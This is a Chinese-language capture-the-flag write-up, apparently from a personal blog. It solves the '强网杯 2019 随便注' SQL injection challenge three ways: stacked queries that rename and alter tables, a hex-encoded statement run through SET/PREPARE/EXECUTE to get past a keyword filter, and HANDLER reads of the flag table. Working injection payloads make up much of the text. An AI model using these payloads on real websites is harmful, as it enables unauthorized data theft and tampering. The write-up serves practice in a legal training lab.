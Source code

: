 ```yaml
---
title: sql-test
date: 2024-09-11 21:09:05
permalink: /pages/a7f3bd/
author: 
  name: Cola
  link: https://the0n3.top
---
```

# [强网杯 2019]随便注

参考：

[【BUUCTF[强网杯 2019]随便注 的三种解法】](https://blog.csdn.net/qq_44657899/article/details/103239145)

## 思路一

```sql
?inject=1' or 1='1
?inject=1' union select 1,2
```

使用联合查询，回显`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`，显示出过滤的内容

没有过滤分号，可以堆叠注入。显示当前库表

```sql
?inject=1';show tables;
```

有`1919810931114514`,`words`两张表

显示words表的字段

```sql
?inject=1';show columns from words;
```

![1](https://the0n3.top/medias/daily/sql-test/1.png)

当前查询到的信息和words表中字段符合。php里的sql语句查询的是words表，现在不能使用select语句，不考虑盲注的话，**可以利用php当前的sql语句的select查询，需要先把flag所在的表名改为words**

它的sql语句可能是这样

```php
$sql = "select id, data from words";
$result = $conn->query($sql);
if ($result->num_rows > 0) {
    while($row = $result->fetch_assoc()) {
        echo "id: " . $row["id"]. "data: " . $row["data"]. "<br>";
    }
}
```


看看这个数字表里的字段，直接写数字表名查不到信息，需要给数字表名添加上反引号(又学到了)

```sql
?inject=1';show columns from 1919810931114514;
?inject=1';show columns from `1919810931114514`;
```

现在能看到，数字表里只有一个flag，先把words表随便改个名字，再把数字表名改成words

修改表名后，还需要修改和补充字段，现在的words表里没有id字段和data字段，可以插入id字段，修改flag字段的名字

```sql
?inject=1';show tables;rename table words to wow;rename table `1919810931114514` to words;alter table words add id int;alter table words change flag data varchar(100);
```

现在再使用万能密码就可以把flag爆出来了

```sql
?inject=1' or 1='1
```

## 思路二

使用16进制编码查询语句
```sql
select *from `1919810931114514`;
# 编码后
73656c6563742a66726f6d6031393139383130393331313134353134603b
```

又学到了

::: tip
mysql使用set @变量名=值，设置变量  
prepare from预处理语句，会进行解码操作  
execute执行sql语句  
:::

所以可以使用`prepare from`解码一个16进制编码的查询语句，使用execute来执行，这个过程设置把16进制编码设置成变量更方便

题目提示`strstr($inject, "set") && strstr($inject, "prepare")`，set,prepare不能同时小写

```sql
?inject=1';SeT @a=0x73656c6563742a66726f6d6031393139383130393331313134353134603b;prepare execsql from @a;execute execsql;
```

测试了一下，很舒服哈哈，编码的表名需要使用反引号包裹

![sql](https://the0n3.top/medias/daily/sql-test/sql.png)

## 思路三

MySQL 的底层操作，用于直接访问表的行

```sql
?inject=1'; handler `1919810931114514` open as `a`; handler `a` read next;#
```

解释

```sql
-- 打开表
HANDLER `example_table` OPEN AS `a`;

-- 读取第一行
HANDLER `a` READ NEXT;

-- 读取第二行
HANDLER `a` READ NEXT;

-- 继续读取其他行
-- 直到你读取完所有行

-- 关闭表
HANDLER `a` CLOSE;
```

![handler](https://the0n3.top/medias/daily/sql-test/handler.png)